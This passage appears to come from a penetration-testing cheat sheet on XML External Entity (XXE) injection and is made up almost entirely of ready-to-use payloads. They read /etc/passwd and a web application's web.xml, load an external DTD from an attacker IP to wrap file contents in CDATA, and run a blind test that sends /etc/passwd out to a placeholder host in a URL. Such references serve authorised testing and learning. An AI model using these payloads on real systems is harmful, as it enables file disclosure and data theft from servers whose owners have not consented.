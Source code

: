 ```xml
<?xml version="1.0"?>
<!DOCTYPE data [
	<!ELEMENT data ANY >
	<!ENTITY cat SYSTEM "file:///etc/passwd">
]>
<Contact>
<lastName>&cat;</lastName>
<firstName>Jerry</firstName>
</Contact>
```

### CDATA[#](https://trojand.com/cheatsheet/Web/XXE\_Injection.html#cdata)

*   [ ] XXE that can print XML files through the CDATA:

    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE data [
    <!ELEMENT data ANY >
    <!ENTITY % start "<![CDATA[">
    <!ENTITY % file SYSTEM "file:///var/www/html/myapp/WEB-INF/web.xml" >
    <!ENTITY % end "]]>">
    <!ENTITY % dtd SYSTEM "http://192.168.1.5:8000/wrapper.dtd" >
    %dtd;
    ]>
    <Contact>
    <lastName>&wrapper;</lastName>
    <firstName>FIRSTNAME_FILLER</firstName>
    </Contact>
    ```
*   [ ] Inside the `wrapper.dtd` (the external DTD file)

    * Its purpose is just to wrap the variables(parameters) into

    ```xml
    <!ENTITY wrapper "%start;%file;%end;">
    ```
*   [ ] **Exploitation**

    **LFI Test**

    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE foo [
    <!ELEMENT foo (#ANY)>
    <!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>
    ```

    **Blind LFI test (when first case doesn't return anything)**

    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE foo [
    <!ELEMENT foo (#ANY)>
    <!ENTITY % xxe SYSTEM "file:///etc/passwd">
    <!ENTITY blind SYSTEM "https://www.example.com/?%xxe;">]><foo>&blind;</foo>
    ```
